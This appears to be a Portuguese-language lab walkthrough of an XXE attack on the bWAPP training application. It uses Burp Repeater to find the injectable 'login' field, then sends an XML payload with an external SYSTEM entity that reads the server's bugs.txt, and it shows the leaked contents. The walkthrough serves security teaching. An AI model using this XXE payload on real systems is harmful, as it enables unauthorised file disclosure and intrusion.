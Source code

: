 Irá gerar uma requisição post parao endpoint `xxe-2.php` com o seguinte payload:

```xml
<reset>
  <login>
  bee
  </login>
  <secret>
  Any bugs?
  </secret>
</reset>
```

E como podemos ver a requisição não é filtrada, então podemos mandar para o repeater do burpsuite e reajustar o payload para efetuarmos alguns testes.
Existem dois campos onde a vulnerabilidade pode estar, que são `login` e `secret`, enviando o payload default temos uma resposta `200` com a mensagem `bee's secret has been reset!`, ou seja, a referência que temos na mensagem é `bee` que seria o campo de `login`, vamos testá-lo.

Efetuando a chamada novamente com o payload da seguinte maneira:

```xml
<reset>
  <login>
  roz
  </login>
  <secret>
  Any bugs?
  </secret>
</reset>
```

A mensagem de retorno é: `roz's secret has been reset!`, isso deixa mais claro que o campo injetável é o `login`, vamos tentar efetuar o ataque no bugs.txt do próprio server, enviaremos o seguinte payload:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
<!ENTITY roz SYSTEM "http://localhost/bWAPP/bugs.txt">
]>
<reset><login>&roz;</login><secret>Any bugs?</secret></reset>
```

No payload nomeamos a entidade de retorno do SYSTEM como `roz` e passando o arquivo bugs.txt para ela, sendo assim o retorno será:

```
/ A1 - Injection /,portal.php
HTML Injection - Reflected (GET),htmli_get.php
HTML Injection - Reflected (POST),htmli_post.php
HTML Injection - Reflected (Current URL),htmli_current_url.php
HTML Injection - Stored (Blog),htmli_stored.php
iFrame Injection, iframei.php
LDAP Injection (Search),ldapi.php
Mail Header Injection (SMTP),maili.php
OS Command Injection,commandi.php
OS Command Injection - Blind,commandi_blind.php
PHP Code Injection,phpi.php
Server-Side Includes (SSI) Injection,ssii.php
SQL Injection (GET/Search),sqli_1.php
SQL Injection (GET/Select),sqli_2.php
SQL Injection (POST/Search),sqli_6.php
SQL Injection (POST/Select),sqli_13.php
SQL Injection (AJAX/JSON/jQuery),sqli_10-1.php
SQL Injection (CAPTCHA),sqli_9.php
SQL Injection (Login Form/Hero),sqli_3.php
...'s secret has been reset!
```